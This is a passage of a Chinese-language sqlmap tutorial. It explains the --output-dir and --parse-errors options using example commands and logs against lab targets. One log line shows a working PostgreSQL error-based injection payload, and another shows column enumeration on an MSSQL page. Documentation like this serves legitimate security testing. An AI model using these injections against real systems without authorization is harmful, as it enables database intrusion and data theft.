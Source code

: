 ```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/pgsql/get_int.php?id=1" --banner --hex -v 3 --parse-errors

[...]
[xx:xx:14] [INFO] fetching banner
[xx:xx:14] [PAYLOAD] 1 AND 5849=CAST((CHR(58)||CHR(118)||CHR(116)||CHR(106)||CHR(58))||(ENCODE(CONVERT_TO((COALESCE(CAST(VERSION() AS CHARACTER(10000)),(CHR(32)))),(CHR(85)||CHR(84)||CHR(70)||CHR(56))),(CHR(72)||CHR(69)||CHR(88))))::text||(CHR(58)||CHR(110)||CHR(120)||CHR(98)||CHR(58)) AS NUMERIC)
[xx:xx:15] [INFO] parsed error message: 'pg_query() [<a href='function.pg-query'>function.pg-query</a>]: Query failed: ERROR:??invalid input syntax for type numeric: ":vtj:506f737467726553514c20382e332e39206f6e20693438362d70632d6c696e75782d676e752c20636f6d70696c656420627920474343206763632d342e332e7265616c202844656269616e2032e332e322d312e312920342e332e32:nxb:" in <b>/var/www/sqlmap/libs/pgsql.inc.php</b> on line <b>35</b>'
[xx:xx:15] [INFO] retrieved: PostgreSQL 8.3.9 on i486-pc-linux-gnu, compiled by
GCC gcc-4.3.real (Debian 4.3.2-1.1) 4.3.2
[...] 
```

### 自定义输出的路径

参数：–output-dir

sqlmap默认把session文件跟结果文件保存在output文件夹下，用此参数可自定义输出路径 例如：–output-dir=/tmp

### 从响应中获取DBMS的错误信息

参数：–parse-errors

有时目标没有关闭DBMS的报错，当数据库语句错误时，会输出错误语句，用词参数可以会显出错误信息。

```
$ python sqlmap.py -u "http://192.168.21.129/sqlmap/mssql/iis/get_int.asp?id=1" --parse-errors
[...]
[11:12:17] [INFO] ORDER BY technique seems to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 10 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 6 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] parsed error message: 'Microsoft OLE DB Provider for ODBC Drivers (0x80040E14)
[Microsoft][ODBC SQL Server Driver][SQL Server]The ORDER BY position number 4 is out of range of the number of items in the select list.
<b>/sqlmap/mssql/iis/get_int.asp, line 27</b>'
[11:12:17] [INFO] target URL appears to have 3 columns in query
[...] 
```

## 其他的一些参数
